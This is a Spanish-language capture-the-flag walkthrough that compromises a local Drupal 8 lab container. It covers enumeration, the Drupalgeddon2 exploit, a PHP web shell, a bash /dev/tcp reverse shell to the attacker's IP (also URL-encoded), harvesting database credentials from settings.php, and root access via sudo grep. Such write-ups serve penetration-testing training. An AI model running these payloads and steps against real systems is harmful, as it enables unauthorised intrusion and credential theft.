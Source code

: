 ## FASE DE ENUMERACIÓN

IP_victima-->172.17.0.2

Vamos a realizar un scaneo de los puertos que tiene abiertos, así como de los servicios y versiones que corren en ellos:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open -oN puertosYservicios 172.17.0.2
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2
```
Solo el puerto 80 con una versión apache con alguna que otra vulnerabilidad, haciendo unas pruebas rápidas creo que están sanitizadas

Accedemos a la página y vemos un error 403... con esto, sin nada en el código fuente vamos a hacer un scan de rutas:

```bash
 gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x php,html,txt,
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/drupal               (Status: 301) [Size: 309] [--> http://172.17.0.2/drupal/]
/.                    (Status: 403) [Size: 285]
/.html                (Status: 403) [Size: 290]
/server-status        (Status: 403) [Size: 298]
Progress: 1102730 / 1102735 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un CMS drupal..interesante, vamos a ver si logramos saber la versión, vamos a mirar las cabeceras:
```bash
 curl -I http://172.17.0.2/drupal/
```
```
X-Generator: Drupal 8 (https://www.drupal.org)
```
Versión 8...y ahora hablo de memoria pereo creo que en la versión 8 ya no se podia saber dentro de ella cual era así pues vamos a buscar un exploit para la versiñon 8

```
https://www.exploit-db.com/exploits/44449
```
```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```
drupalgedón...suena a muerte y destrucción del CMS drupal.

## ACCESO

1- En mi caso abrí nano para crear un archivo con el nombre drupalgeddon2.rb
  ```
  nano drupalgeddon2.rb
  ```
2-Ccopiar e script en la parte superior derecha del mismo donde pone "Copy"

3-pegar en el nano con "ctrl"+shift (la tecla de encima del ctrl izq con una flecha hacia arriba)+V

4-Guardar ctrl+O

5-Salir ctrl+X

es un script en ruby, instalo una gema que pide "require 'highline/import'" por si va a darme problemas:

```
 sudo gem install highline
```

y....a probar el script:

```bash
 ruby drupalgeddon2.rb http://172.17.0.2/drupal/
```

```
[i] Fake PHP shell:   curl 'http://172.17.0.2/drupal/shell.php' -d 'c=hostname'
```

desde aquí podemos ejecutar comando:

```
bf7c7f570628>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

intenté lanzarme una reverseshell y no reconoce algunos caracteres, como no estoy seguro si es porque hay que encodear, se que me ha creado un archivo en la ruta "http://172.17.0.2/drupal/shell.php"
asi que lo voy a leer desde el drupalgedon2:

```
bf7c7f570628>> cat shell.php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```
vale si enviamos una consulta al parametro "c" ejecutamos un comando en el sistema.... jeje

vamos a 
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
cogemos la revershell de nc y la ajustamos un poco quedando asi:

```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```
-172.17.0.1 es mi IP
-445 el puerto que voy a poner a la escucha

me voy a 
```bash
https://www.urlencoder.org/
```
URLencodeo la rev y me queda así:
```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```
nos ponemos a la escucha en el puerto 445:
```
 sudo nc -lvnp 445
```
ahora nos vamos a la página web y vamos a usar el parametro c y nuestra rev:

```bash
http://172.17.0.2/drupal/shell.php?c=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```

y estamos dentro!!!


## FASE ESCALADA DE PRIVILEGIOS

Miramos con "id" si estamos en algún grupo priviegiado:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
nada

un cat al /etc/passwd para ver los usuarios:

 ```bash
cat /etc/passwd | grep sh$
```

```
root:x:0:0:root:/root:/bin/bash
ballenita:x:1000:1000:ballenita,,,:/home/ballenita:/bin/bash
```

con "sudo -l" nos pide contraseña que no tenemos

En drupal suelen guardarse algunas credenciales en un archivo llamado "settings.php"
lo buscamos:

```bash
find / -type f -name settings.php 2>/dev/null
```
```
/var/www/html/drupal/sites/default/settings.php
```

ya lo localizamos, vamos a ver que permisos tiene:
```
ls -la /var/www/html/drupal/sites/default/settings.php
-r--r--r-- 1 www-data www-data 32133 Oct 16  2024 /var/www/html/drupal/sites/default/settings.php
```

podemos leerlo, vamos a hacer una búsqueda rápida:

```bash
cat settings.php | grep -A 10 'databases'
```

en algún sitio podemos leer:

```
* @code
 * $databases['default']['default'] = array (
 *   'database' => 'database_under_beta_testing', // Mensaje del sysadmin, no se usar sql y petó la base de datos jiji xd
 *   'username' => 'ballenita',
 *   'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
 *   'prefix' => '',
 *   'collation' => 'utf8mb4_general_ci',
 * );
 * @endcode
--
$databases = array();
```

usuario:ballenita
password:ballenitafeliz
Además ese comentario de "Cuidadito cuidadín pillin" me da buena vibra xD

intentamos pivotar al user ballenita:
```
su ballenita
```
metemos el password--->ballenitafeliz

y ya somos ballenita¡¡¡¡


Hacemos un sudo -l:

```bash
sudo -l
```

```
(root) NOPASSWD: /bin/ls, /bin/grep
```


pudiendo listar con ls siendo root todo el sistema:
```bash
sudo -u root /bin/ls /root
```
```
secretitomaximo.txt
```
y con grep, vamos a 
```bash
https://gtfobins.github.io/gtfobins/grep/#sudo
```
```
LFILE=file_to_read
sudo grep '' $LFILE
```

pues al lio, en vez de guardar la ruta al file lo meto directo:

```bash
sudo -u root /bin/grep '' /root/secretitomaximo.txt
```
```
nobodycanfindthispasswordrootrocks
```

veamos si es el password de root:

```bash
su root
```
introducimos el password:nobodycanfindthispasswordrootrocks

Ya somos root¡¡¡¡





